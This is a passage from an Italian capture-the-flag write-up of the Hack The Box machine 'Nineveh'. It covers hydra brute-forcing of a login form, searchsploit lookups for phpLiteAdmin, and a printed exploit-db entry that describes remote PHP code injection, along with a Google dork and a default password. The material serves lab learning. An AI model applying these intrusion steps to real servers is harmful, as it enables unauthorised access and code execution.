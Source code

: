 ```bash
```

- -l: specifica il nome utente per essere admin.
- -P: specifica il file che contiene le password.
- http-post-form: stiamo inviando una richiesta POST.
- “….”: il contenuto tra virgolette specifica i parametri username/password da testare e il messaggio di login fallito.

Abbiamo una password valida! 
password123

Utilizziamo  password123 per accedere all'applicazione. Poiché si tratta di un'applicazione pronta all'uso, utilizziamo searchsploit per scoprire se è associata a qualche vulnerabilità.

```bash
┌──(root㉿kali)-[/home/kali/htb/nineveh]
└─# searchsploit phpLiteAdmin 1.9 
---------------------------------------------------------------------------------------------------------------------------------------------------------
 Exploit Title  |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------
PHPLiteAdmin 1.9.3 - Remote PHP Code Injection | php/webapps/24044.txt
phpLiteAdmin 1.9.6 - Multiple Vulnerabilities| php/webapps/39714.txt
---------------------------------------------------------------------------------
Shellcodes: No Results
Papers: No Results

```

Perfetto abbiamo una Remote Code Injection, lo scarichiamo e gli diamo un occhiata

```bash
┌──(root㉿kali)-[/home/kali/htb/nineveh]
└─# searchsploit -m 24044.txt    
  Exploit: PHPLiteAdmin 1.9.3 - Remote PHP Code Injection
      URL: https://www.exploit-db.com/exploits/24044
     Path: /usr/share/exploitdb/exploits/php/webapps/24044.txt
    Codes: OSVDB-89126
 Verified: True
File Type: ASCII text
Copied to: /home/kali/htb/nineveh/24044.txt

┌──(root㉿kali)-[/home/kali/htb/nineveh]
└─# cat 24044.txt          
# Exploit Title: phpliteadmin <= 1.9.3 Remote PHP Code Injection Vulnerability
# Google Dork: inurl:phpliteadmin.php (Default PW: admin)
# Date: 01/10/2013
# Exploit Author: L@usch - http://la.usch.io - http://la.usch.io/files/exploits/phpliteadmin-1.9.3.txt
# Vendor Homepage: http://code.google.com/p/phpliteadmin/
# Vendor Status: Informed
# Software Link: http://phpliteadmin.googlecode.com/files/phpliteadmin_v1-9-3.zip
# Version: 1.9.3
# Tested on: Windows and Linux

Description:

phpliteadmin.php#1784: 'Creating a New Database' =>
phpliteadmin.php#1785: 'When you create a new database, the name you entered will be appended with the appropriate file extension (.db, .db3, .sqlite, etc.) if you do not include it yourself. The database will be created in the directory you specified as the $directory variable.',

An Attacker can create a sqlite Database with a php extension and insert PHP Code as text fields. When done the Attacker can execute it simply by access the database file with the Webbrowser.

```